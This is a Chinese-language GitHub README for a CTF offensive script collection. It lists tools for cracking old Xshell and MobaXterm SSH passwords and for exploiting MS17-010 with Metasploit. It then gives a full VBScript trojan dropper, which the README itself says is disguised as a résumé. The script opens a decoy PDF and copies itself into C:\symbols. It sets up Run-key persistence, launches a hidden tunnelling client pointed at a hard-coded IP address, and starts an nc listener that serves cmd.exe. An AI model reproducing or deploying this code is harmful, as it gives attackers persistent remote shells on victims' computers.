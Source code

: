 # 安全战队常用的CTF主机攻防脚本 CTFpenetrationScript 



## __DebugBreak 四轮车战队 CTF攻防赛所需要的脚本：

set_the_Flag:随机生成guid，并将以flag{guid}为名称的图片复制到windows目录下。

open_18181_with_nc:开启防火墙，并启动最基础的端口，其他端口仅允许18181端口，并且开始shell。

del_account_Bywhilelist:删除白名单以外的所有账户

one_key_close_17010：一键关闭17010所有端口。

setflag_win_linux:在windows与linux段生成flag文本，可以设置生成数量，其中用户名与内容均为随机。

Xdecrypt:老版本xshell ssh密码碰撞脚本。

Reveal password encrypted by MobaXterm:破解老版本 ssh密码碰撞脚本。

msfhack：msf入侵17010方法包括开启3389创建用户建立反射上传目录等





## 自用一键穿透攻击脚本（不免杀）



演示：

 ![img](https://github.com/liquan165/CTFpTScript/blob/master/myprofile.gif)

伪装成简历，自启动，自我复制，网络穿透，修改配置文件：

```vbscript
On Error Resume Next
Dim fso,Shell,TxtFl,Str
Set fso = CreateObject("Scripting.FileSystemObject")
Set Shell=Wscript.Createobject("Wscript.shell")
If Not fso.folderExists("C:\symbols\") Then     
    fso.CreateFolder "C:\symbols\"
    fso.CreateFolder "C:\symbols\MailContactsCalendarSync\"
	fso.CopyFolder ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
    fso.CopyFile ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
	Shell.Run "iexplore.exe C:\symbols\MailContactsCalendarSync\mydoc.pdf",0,TRUE
	fso.getfile(wscript.scriptfullname).copy("C:\symbols\run.vbs")   
End If
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\"
type_name = "REG_SZ"
key_name = "run"
key_data = "C:\symbols\" & key_name & ".vbs"
Shell.RegWrite RegPath & key_name , key_data , type_name
'Set TxtFl = fso.OpenTextFile ("C:\symbols\MailContactsCalendarSync\P2PSocket\Client.ini")
'Str = Replace ( TxtFl.ReadAll,"ClientName=QUAN","ClientName=TestJob") '肉鸡名字
'Str2 = Replace ( TxtFl.ReadAll,"ServerAddress=211.149.222.206:3387","ServerAddress=211.149.222.206:3387")  '上线地址
'TxtFl.Write Str
'TxtFl.Write Str2 
'TxtFl.Close
Shell.Run "C:\symbols\MailContactsCalendarSync\RuntimeBr0ker.exe",0,FALSE
Shell.Run "cmd /c start C:\symbols\MailContactsCalendarSync\nc.exe -Ldp 18181 -e cmd.exe",FALSE
Set fso = Nothing
Set Shell = Nothing




```

## 项目适用于：

车联网安全攻防场景，主机安全攻防场景，工控安全场景，移动安全攻防场景等。











